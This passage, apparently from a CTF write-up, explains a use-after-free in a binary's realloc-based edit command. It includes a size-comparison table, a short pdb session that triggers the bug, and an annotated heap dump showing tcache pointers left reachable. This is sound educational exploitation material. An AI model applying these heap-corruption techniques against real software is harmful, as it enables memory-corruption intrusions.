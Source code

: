### Comment

This exploit was crazy to develop. Every time I got to the next step, I had to go back and completely rearchitect the previous one, moving around blocks, trying different size bins. It would be impossible for me to show all these steps in this post, but rather, I’ll try to walk through the different goals accomplished in the finished script and show how the script is used to manipulate the heap to do what I need. But it’s worth adding that the first time I got a libc address onto the heap, my code looked totally different. When I got to the next step, I would use the same general techniques, but I needed to completely rework the spacing and sizing of the different bins to accomplish both the goals I’d already achieved and the next one.

### Vulnerability

#### Description

The vulnerability here is with `realloc` in the `edit` command, and how it reacts based on the current size and the new size:

| Size Comparison | Action |
| --- | --- |
| new\_size == 0 | `free(buffer)`, return null |
| new\_size > 0 && new\_size < orig\_size | Break into two chunks, returning same address with smaller chunk, and leaving free chunk at end of old chunk |
| new\_size > 0 && new\_size > orig\_size | Free old chunk, allocate a new chunk for larger size, and return that address. |

The code above checks if the return is null, but then just prints a message and doesn’t change the stored pointer. This leaves the user with a pointer into freed memory, which is bad.

#### Example

To see this, I’ll run the following:

```

(Pdb) add('1', 0x50)
(Pdb) add('2', 0x50)
(Pdb) rm('1')
(Pdb) edit('2', 0)

```

That leaves the following (`<--` added by me):

```
-----------------------------------
[0x0000000000000000]         : (null)
[0x000055555555c2c0] 2       : `UUUU                        <-- still have pointer to chunk2
-----------------------------------
0x55555555c250: 0x0000000000000000      0x0000000000000061  <-- freed chunk 1
0x55555555c260: 0x0000000000000000      0x000055555555c010  <-- tcache pointer null, key
0x55555555c270: 0x0000000000000000      0x0000000000000000
0x55555555c280: 0x0000000000000000      0x0000000000000000
0x55555555c290: 0x0000000000000000      0x0000000000000000
0x55555555c2a0: 0x0000000000000000      0x0000000000000000
0x55555555c2b0: 0x0000000000000000      0x0000000000000061  <-- freed chunk 2
0x55555555c2c0: 0x000055555555c260      0x000055555555c010  <-- tcache pointer to freed 1, key
0x55555555c2d0: 0x0000000000000000      0x0000000000000000
0x55555555c2e0: 0x0000000000000000      0x0000000000000000
0x55555555c2f0: 0x0000000000000000      0x0000000000000000
0x55555555c300: 0x0000000000000000      0x0000000000000000
0x55555555c310: 0x0000000000000000      0x0000000000020cf1  <-- end of heap
...[snip]...
-----------------------------------
...[snip]...
                  top: 0x55555555c310 (size : 0x20cf0) 
       last_remainder: 0x0 (size : 0x0) 
```